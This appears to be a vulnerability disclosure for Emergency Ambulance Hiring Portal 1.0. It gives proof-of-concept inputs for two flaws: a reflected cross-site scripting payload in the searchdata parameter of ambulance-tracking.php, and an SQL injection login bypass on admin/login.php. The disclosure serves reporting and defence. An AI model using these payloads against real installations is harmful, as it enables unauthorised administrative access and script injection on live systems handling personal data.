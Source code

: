 # Emergency Ambulance Hiring Portal - Cross-Site Scripting
+ Exploit Title:Emergency Ambulance Hiring Portal - Cross-Site Scripting
+ Exploit Author: zihe
+ Vendor Homepage: https://phpgurukul.com/emergency-ambulance-hiring-portal-using-php-and-mysql/
+ Software Link: https://phpgurukul.com/?sdm_process_download=1&download_id=18972
+ Version: 1.0
+ Tested on: Windows 10 Pro + PHP 5.6.9, Nginx 1.15.11, Mysql 5.7.26
+ CVE: Reported, waiting for CVE number.

## Description:
Emergency Ambulance Hiring Portal 1.0 is vulnerable to cross-site scripting via the `searchdata` parameter at ambulance-tracking.php

## Proof of Concept:

Go to this address: "http://eahp/ambulance-tracking.php"

searchdata : `<script>alert('zihe');</script>`

Cross-Site Scripting Successful!

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/b090cb25-ae5f-4949-8986-578fef273e87)

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/7c725f66-5461-485f-bc8e-2324b17a025b)


# Emergency Ambulance Hiring Portal - Login Sqlinjection:

## Description:
Emergency Ambulance Hiring Portal 1.0 is vulnerable to Sqlinjection via the `username` and `password` parameter at admin/login.php

## Proof of Concept:

Go to this address: "http://eahp/admin/login.php"

username : `admin' or '1'='1`
password : `anyword`

Sqlinjection Successful!

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/78392570-0e7d-4c55-80f2-e6a9f60c2be8)

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/7015b41d-3a73-45a9-b284-c50237b08b9b)

